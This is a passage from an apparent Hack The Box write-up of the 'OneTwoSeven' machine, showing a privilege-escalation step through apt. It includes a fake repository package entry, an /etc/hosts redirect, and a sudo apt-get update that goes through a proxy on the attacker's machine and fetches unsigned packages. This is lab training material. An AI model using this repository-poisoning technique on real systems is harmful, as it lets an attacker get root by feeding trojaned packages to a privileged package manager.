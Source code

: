 ```
Priority: important
Filename: pool/DEBIAN/main/n/nano/nano_3.0.0_amd64.deb
Size: 484680
MD5sum: 2aed07eb168f2dcafcc0f6311d33ace0
SHA256: 7f256355537f78c672d5f8aff6de00c63a026306df6e120b2ee8eaaa503d923c
```

Next I setup Burp to listen on all interfaces:

![](/assets/images/htb-writeup-onetwoseven/burp.png)

Then modify `/etc/hosts` to point the apt repositories to my own box:

```
127.0.0.1 packages.onetwoseven.htb de.deb.devuan.org
```

I can force the server to connect through my Kali VM by setting the `http_proxy` variable so it uses the Burp proxy. My local host file points the repo domain to 127.0.0.1 so it connects to my Python webserver.

```
www-admin-data@onetwoseven:/$ sudo http_proxy=http://10.10.14.23:8080 apt-get update
Ign:1 http://packages.onetwoseven.htb/devuan ascii InRelease
Ign:2 http://de.deb.devuan.org/merged ascii InRelease
Get:3 http://packages.onetwoseven.htb/devuan ascii Release [420 B]
Ign:4 http://de.deb.devuan.org/merged ascii-security InRelease
Ign:5 http://packages.onetwoseven.htb/devuan ascii Release.gpg
Ign:6 http://de.deb.devuan.org/merged ascii-updates InRelease
Err:7 http://de.deb.devuan.org/merged ascii Release
  404  File not found
Ign:8 http://packages.onetwoseven.htb/devuan ascii/main amd64 Packages
Err:9 http://de.deb.devuan.org/merged ascii-security Release
  404  File not found
Get:8 http://packages.onetwoseven.htb/devuan ascii/main amd64 Packages [770 B]
Err:10 http://de.deb.devuan.org/merged ascii-updates Release
  404  File not found
Reading package lists... Done
W: The repository 'http://packages.onetwoseven.htb/devuan ascii Release' is not signed.
N: Data from such a repository can't be authenticated and is therefore potentially dangerous to use.
N: See apt-secure(8) manpage for repository creation and user configuration details.
E: The repository 'http://de.deb.devuan.org/merged ascii Release' does no longer have a Release file.
N: Updating from such a repository can't be done securely, and is therefore disabled by default.
N: See apt-secure(8) manpage for repository creation and user configuration details.
E: The repository 'http://de.deb.devuan.org/merged ascii-security Release' does no longer have a Release file.
N: Updating from such a repository can't be done securely, and is therefore disabled by default.
N: See apt-secure(8) manpage for repository creation and user configuration details.
E: The repository 'http://de.deb.devuan.org/merged ascii-updates Release' does no longer have a Release file.
N: Updating from such a repository can't be done securely, and is therefore disabled by default.
N: See apt-secure(8) manpage for repository creation and user configuration details.
```
